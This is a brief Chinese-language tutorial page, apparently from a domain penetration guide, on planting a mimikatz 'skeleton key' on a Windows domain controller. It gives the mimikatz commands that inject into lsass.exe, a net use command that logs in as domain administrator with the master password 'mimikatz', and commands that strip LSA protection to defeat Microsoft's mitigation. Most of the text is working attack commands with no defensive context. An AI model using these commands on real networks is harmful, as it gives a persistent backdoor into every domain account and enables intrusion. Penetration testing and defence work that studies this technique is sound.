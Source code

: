 > 原文：[http://book.iwonder.run/域渗透/5.3.html](http://book.iwonder.run/域渗透/5.3.html)

### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

#### 1、 在域控上安装 skeleton key

```
mimikatz.exe privilege::debug "misc::skeleton" 
```

![image](img/4df43cde7f8f704e703d36bd0d4eb68c.png)

#### 2、 在域内其他机器尝试使用 skeleton key 去访问域控

添加的密码是 mimikatz

```
C:\Users\jeff1>net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\adm inistrator 
```

![image](img/c4c201b0d3be80f123e5b76c6c5dc243.png)

#### 3、 微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注 入。如果直接尝试添加 skelenton key 会失败。

适用系统:

*   windows 8.1
*   windows server 2012 及以上

![image](img/cf6f1a06c552b21b36c3b1b349326f99.png)

当然 mimikatz 依旧可以绕过，命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton 
```

